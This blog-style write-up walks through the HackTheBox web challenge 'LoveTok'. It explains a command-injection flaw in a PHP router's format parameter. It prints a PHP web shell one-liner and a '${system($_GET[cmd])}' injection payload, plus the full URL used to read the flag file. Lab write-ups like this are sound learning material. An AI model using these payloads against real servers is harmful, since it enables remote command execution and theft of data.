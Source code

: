 ```yaml
---
layout: post
title: LoveTok
date: '2024-01-18'
description: "LoveTok is one of the easy web exploitation challenges on HTB"
categories: [HTB]
---
```


> **[LoveTok](https://app.hackthebox.com/challenges/lovetok)** is an easy web exploitation challenge on HTB which makes use web shells to extract sensitive data from a web server.

## Walkthrough
The LoveTok website.
![img-description](1.jpg)

The website does not have much information besides a button at the bottom of the page. Upon clicking the button, I noticed that the URL changed. 
```shell
http://94.237.62.195:37632/?format=r
```
![img-description](2.jpg)

I messed around with the r section of the URL and changed it to different system commands and the text at the bottom of the page kept on changing depending on the command used. 
![img-description](3.jpg)

I then proceeded to look at the downloaded files that came with the challenge and found an intersesting code in the Router.php file. The code shows a basic routing mechanism for a PHP application, allowing developers to define routes and corresponding controller functions or methods to handle incoming requests.

A specific section of the code stood out to me.
![img-description](4.jpg)

This section handles a scenario where a segment in the route pattern is a placeholder {param}, indicating that a parameter value is expected in that segment of the URL. If the current segment in the URL is an empty string then it aborts the script execution with an HTTP status code of 404 (Not Found).

From then, I used a web shell to bypass the conditional check in the router code and exploit the command injection vulnerability to execute arbitrary commands on the server, ultimately allowing me to extract sensitive data.

I found the following web shell payload:
```shell
<?php system($_GET['cmd']);?>
```
It uses the system() function to execute commands that are being passed through ‘cmd’ HTTP request GET parameter.

I adjusted the payload to list all files and directories in the root directory of the web server. 
```shell
 ${system($_GET[cmd])}&cmd=ls /
```
![img-description](5.jpg)
I found a flag file and changed the system commands on the payload to open the file.

```shell
http://94.237.62.195:37632/?format=%20${system($_GET[cmd])}&cmd=cat%20/flagPmIxD
```
And Voila! I got the flag!
![img-description](6.jpg)

![img-description](7.jpg)